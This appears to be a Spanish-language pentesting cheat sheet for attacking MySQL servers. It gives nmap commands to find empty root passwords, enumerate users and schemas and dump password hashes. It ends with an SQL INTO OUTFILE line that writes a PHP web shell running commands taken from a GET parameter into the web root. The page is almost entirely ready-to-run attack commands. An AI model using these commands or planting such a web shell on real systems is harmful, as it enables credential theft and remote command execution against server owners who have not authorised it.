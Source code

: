 # MySQL
Servicio de bases de datos SQL usualmente en el puerto 3306
## Enumeración
### Check Empty Password
```nmap
nmap --script=mysql-empty-password -p 3306 IP
```	
## Interacción con el servicio
### Acceso mediante el cliente mysql
```
mysql -h IP -u root -p
```
### Ver las bases de datos desde el cliente
```
> show databases;
```
### Enumeración de usuarios mediante nmap (Authenticated)
```
nmap --script=mysql-users --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```	
### Obtención del database schema usando nmap (Authenticated)
```
nmap --script=mysql-databases --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```
### Obtención de hashes usando nmap (Authenticated)
```
nmap --script mysql-dump-hashes --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```		
## Vulnerabilidades comunes sin metasploit
### Pasar de SQL a una  webshell
```SQL
SELECT '<?php echo passthru($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

